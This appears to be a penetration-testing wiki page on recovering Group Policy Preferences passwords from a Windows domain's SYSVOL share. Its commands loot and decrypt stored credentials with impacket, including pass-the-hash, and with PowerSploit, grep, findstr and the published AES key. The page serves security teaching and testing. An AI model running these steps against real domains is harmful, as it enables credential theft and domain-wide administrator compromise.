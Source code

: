 # SYSVOL & Group Policy Preferences

Windows systems come with a built-in Administrator (with an RID of 500) that most organizations want to change the password of. This can be achieved in multiple ways but there is one that is to be avoided: setting the built-in Administrator's password through Group Policies.

The first problem is that the password is set to be the same for every (set of) machine(s) the Group Policy applies to. If the attacker finds the admin's hash or password, he can gain administrative access to all (or set of) machines. by default, knowing the built-in Administrator's hash (RID 500) allows for powerful attackss. all Group Policies are stored in the Domain Controllers' SYSVOL share. All domain users have read access to it. This means all domain users can read the encrypted password set in Group Policy Preferences, and since Microsoft published the encryption key around 2012, the password can be decrypted.

From UNIX-like systems, [this python script](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py) in the impacket examples can be used to remotely parse .xml files and loot for passwords

```
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'
​
# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
​
# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

Alternatively, searching for passwords can be done manually (or with Metasploit's smb\_enum\_gpp module), however it requires mounting the SYSVOL share, which can't be done through a docker environment unless it's run with privileged rights. Tools like pypykatz and gpp-decrypt can then be used to decrypt the matches.

```
# create the target directory for the mount
sudo mkdir /tmp/sysvol
​
# mount the SYSVOL share
sudo mount\
    -o domain='domain.local'\
    -o username='someuser'\
    -o password='password'\
    -t cifs\
    '//domain_controller/SYSVOL'\
    /tmp/sysvol
​
# recursively look for "cpassword" in Group Policies
sudo grep -ria cpassword /tmp/sysvol/'domain.local'/Policies/ 2>/dev/null
​
# decrypt the string and recover the password
pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```

From Windows systems, the GPP password can only be recovered from an authenticated (i.e. domain user) context. ​powersploit's `get-gpppassword` searches a Domain Controller's SYSVOL share Groups.xml, Services.xml, Scheduledtasks.xml, DataSources.xml, Printers.xml and Drives.xml files and returns plaintext passwords

```
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

This can also be achieved without tools, by "manually" looking for the cpassword string in xml files and by then manually decrypting the matches

```
findstr /S cpassword %logonserver%\sysvol\*.xml
```

The decryption process is as follows

```
1. decode from base64
2. decrypt from AES-256-CBC the following hex key/iv
    Key : 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
    IV : 0000000000000000000000000000000
3. decode from UTF-16LE
```
